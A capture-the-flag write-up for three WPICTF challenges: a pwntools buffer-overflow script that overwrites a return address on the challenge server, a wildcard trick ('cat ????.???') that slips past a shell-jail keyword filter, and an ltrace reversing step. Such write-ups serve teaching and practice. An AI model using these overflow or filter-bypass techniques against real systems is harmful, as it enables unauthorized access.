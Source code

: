 EZPZ, Pwn, 100pts
==================

Problem
--------
nc ezpz.wpictf.xyz 31337

Solution
--------
We run the following script -

```python
from pwn import *


r = remote('ezpz.wpictf.xyz', 31337)

msg = r.recvline()
print(msg)
address = int(msg.split(' ')[1], 16)  # 16 for hex
r.recvline()

buf  = 'A'*0x88
buf += p64(address)
r.sendline(buf)


r.interactive()
```

This gives the flag - `WPI{3uffer_0verflows_r_ezpz_l3mon_5queazy}`.

Shell-JAIL-1, Pwn, 150pts
==========================

Problem
--------
Download the login private key, then run:

ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz

redundant servers on 31338 and 31339

Solution
---------
The solution was to not use "\*", "sh", "/", "home", "pc_owner", "flag", "txt" in the command to display flag.txt.

So we run - `./access "cat ????.???"`

The flag is - `wpi{MaNY_WayS_T0_r3Ad}`.

Penguin, Reversing, 50pts
=========================

Problem
-------
Find flag.

Solution
--------

We use ltrace to see program flow.

Running `ltrace WPI{1}`

Gives output -  
![](output.png)

So we keep doing that, and finally get the flag - `WPI{strings_only_gives_you_wings,_you_still_have_to_learn_how_to_fly._try_hexedit}`.
